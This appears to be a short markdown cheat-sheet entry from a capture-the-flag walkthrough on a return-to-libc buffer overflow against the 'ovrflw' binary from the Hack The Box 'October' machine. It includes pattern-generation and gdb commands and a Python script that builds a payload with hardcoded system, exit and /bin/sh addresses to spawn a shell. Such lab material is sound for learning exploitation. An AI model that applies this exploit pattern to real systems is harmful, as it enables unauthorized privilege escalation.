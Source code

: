 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```


### Python Exploit Code
```#!/usr/bin/python

import struct
from subprocess import *

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)```

